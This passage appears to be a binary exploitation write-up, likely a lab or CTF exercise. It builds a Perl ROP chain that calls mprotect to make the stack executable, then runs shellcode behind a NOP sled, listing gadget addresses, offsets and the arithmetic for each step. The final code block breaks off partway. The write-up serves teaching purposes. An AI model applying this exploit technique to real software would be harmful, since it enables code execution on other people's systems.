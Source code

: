 We can start our exploit that I will do in perl and python
```perl
#!/usr/bin/perl

$| = 1;
$offset = "A"*280
$pop_rdi = pack("Q", 0x00000000004018ca);
$pop_rsi = pack("Q", 0x000000000040f44e);
$pop_rdx = pack("Q", 0x00000000004017cf);
```

### Arguments for mprotect
For the first argument we need the start address of the stack (the address of the mapped region). For this we can use `vmmap` or `info proc mapping`.

![image](https://user-images.githubusercontent.com/87600765/175770691-d97c504a-0f9c-491e-b4e0-ce2ef86b7066.png)

So the start address of the stack is `0x00007ffffffde000` and because of NX enabled the Perm is only `rw-`.
Now we need a size. This lenght will be affected by the mprotect when we will call it. Personally I will use the entire size of the stack which is `0x21000`.

![image](https://user-images.githubusercontent.com/87600765/175770908-0382c00b-03b3-46fa-874a-352e256c45b9.png)

Now we need the address of mprotect. `xinfo mprotect`.

![image](https://user-images.githubusercontent.com/87600765/175772148-454bd2ea-0ed8-416c-8a10-f1b05df42deb.png)

Ok we can now complete our exploit. 
```perl
#!/usr/bin/perl

$| = 1;
$offset = "A"*280
$pop_rdi = pack("Q", 0x00000000004018ca);
$pop_rsi = pack("Q", 0x000000000040f44e);
$pop_rdx = pack("Q", 0x00000000004017cf);
$stack_address = pack("Q", 0x00007ffffffde000);
$stack_size = pack("Q", 0x21000);
$rwx = pack("Q", 0x7);
$mprotect = pack("Q", 0x451bf0);
```
### Shellcode

Since we can make the stack executable we can use a simple shellcode from shellstorm to have a shell. it means also that we need to use some nops value before the shellcode and we will need to substract the nops and the shellcode from the initial offset. The size of our shellcode is 30 bytes and we will use 100 bytes of NOPS. 
```md
offset = 280 - 30 - 100 = 150 bytes
```
So to call mprotect we need to have the address of the mapped region on `rdi`, the `0x7` value for `rwx` on `rdx`, the size of the stack on `rsi`. After that we put the address of mprotect to call the function mprotect. Basically since there is a `ret` after each gadgets, when the 3 arguments will be `pop` there will have a ret acally there is a `ret` after each gadgets of our rop chain. After our 3 arguments there is the address of mprotect. Since there is a ret after each gadgets the mprotect address will be pop on rip so rip will point to the address of mprotect so call it. After that the stack will be executable, writable and readable and we will need to put the shellcode return address to have our shell.
```perl
#!/usr/bin/perl

$| = 1;
#$offset = "A" x 280
$pop_rdi = pack("Q", 0x00000000004018ca);
```